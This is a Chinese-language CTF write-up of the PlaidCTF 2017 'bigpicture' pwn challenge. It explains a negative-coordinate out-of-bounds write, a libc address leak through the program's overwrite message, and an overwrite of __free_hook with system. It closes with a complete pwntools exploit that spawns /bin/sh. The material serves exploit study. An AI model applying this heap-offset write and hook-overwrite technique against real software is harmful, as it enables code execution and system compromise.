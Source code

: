 ```yaml
---
title: plaidctf 2017 bigpicture
date: 2018-10-03 00:00:00
categories:
- Pwn
tags: Pwn
---
```


## BIG PICTURE

就是个画图的程序，输入大小，在指定的坐标画一个像素点（字符）

漏洞点在plot函数 ：

```c
int __fastcall plot(int x, int y, char c)
{
  char *v3; // rax
  char v4; // bl

  if ( width > x && height > y )                // -?
  {
    v4 = c;
    v3 = get(x, y);
    if ( *v3 )
      LODWORD(v3) = _printf_chk(1LL, "overwriting %c!\n", (unsigned int)*v3);
    else
      *v3 = v4;
  }
  else
  {
    LODWORD(v3) = puts("out of bounds!");
  }
  return (signed int)v3;
}
```

坐标可以是负数

所以就可以达到一个有限制条件的任意地址写

问题是往哪里写

刚开始的思路是往代码段里面写shellcode。。。我他妈真是疯了

后来才反应过来如果输入的矩阵大小很大的时候就会调用mmap，分配到一个离libc很近的堆地址

    0x555555554000     0x555555555000 r-xp     1000 0      /pwn/train/bigpicture
    0x555555755000     0x555555756000 r--p     1000 1000   /pwn/train/bigpicture
    0x555555756000     0x555555757000 rw-p     1000 2000   /pwn/train/bigpicture
    0x7ffff7a0d000     0x7ffff7bcd000 r-xp   1c0000 0      /lib/x86_64-linux-gnu/libc-2.23.so
    0x7ffff7bcd000     0x7ffff7dcd000 ---p   200000 1c0000 /lib/x86_64-linux-gnu/libc-2.23.so
    0x7ffff7dcd000     0x7ffff7dd1000 r--p     4000 1c0000 /lib/x86_64-linux-gnu/libc-2.23.so
    0x7ffff7dd1000     0x7ffff7dd3000 rw-p     2000 1c4000 /lib/x86_64-linux-gnu/libc-2.23.so
    0x7ffff7dd3000     0x7ffff7dd7000 rw-p     4000 0      
    0x7ffff7dd7000     0x7ffff7dfd000 r-xp    26000 0      /lib/x86_64-linux-gnu/ld-2.23.so
    0x7ffff7edc000     0x7ffff7fe0000 rw-p   104000 0    <<---our mmaped heap addres
    0x7ffff7ff8000     0x7ffff7ffa000 r--p     2000 0      [vvar]
    0x7ffff7ffa000     0x7ffff7ffc000 r-xp     2000 0      [vdso]
    0x7ffff7ffc000     0x7ffff7ffd000 r--p     1000 25000  /lib/x86_64-linux-gnu/ld-2.23.so
    0x7ffff7ffd000     0x7ffff7ffe000 rw-p     1000 26000  /lib/x86_64-linux-gnu/ld-2.23.so
    0x7ffff7ffe000     0x7ffff7fff000 rw-p     1000 0      
    0x7ffffffde000     0x7ffffffff000 rw-p    21000 0      [stack]
然后libc里边的函数偏移和我们申请的堆地址偏移固定，算出来固定的偏移，一个字节一个字节的写进去就好了

### leak地址

```c
if ( *v3 )
  LODWORD(v3) = _printf_chk(1LL, "overwriting %c!\n", (unsigned int)*v3);
```
如果地址里面有数据就会一个字节一个字节打印出来

首先想到的就是main_arena 里边的unsortedbin附近的存储的libc地址

### getshell

开了fullrelro，只能写hook了

直接写freehook，改成system，之后把堆里面的数据写上/bin/sh，ez

exp：

```python
from pwn import *

# context.log_level = 'debug'

def p():
	gdb.attach(io)
	raw_input()
io = process('./bigpicture')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
leak_offset = 0x12f498
free_hook_offset = 0x12d868

io.recvuntil('?')
io.sendline('1024x1024')
leak = ''
for i in range(6):
	io.recvuntil('>')
	payload = '0,-' + str(leak_offset - i) + ',A'
	io.sendline(payload)
	io.recvuntil('overwriting ')
	leak += io.recv(1)

leak = u64(leak.ljust(8,'\x00'))
libc_base = leak - 0x10 -0x58 - libc.symbols['__malloc_hook']
sys = libc_base + libc.symbols['system']

for i,byte in enumerate(p64(sys)[:6]):
    io.recvuntil('>')
    io.sendline('0,-' + str(free_hook_offset - i) + ',' + byte)

for i,byte in enumerate('/bin/sh'):
	io.recvuntil('>')
	io.sendline('0,'+str(i)+',' + byte)

io.recvuntil('>')
io.sendline('quit')
io.interactive()
```


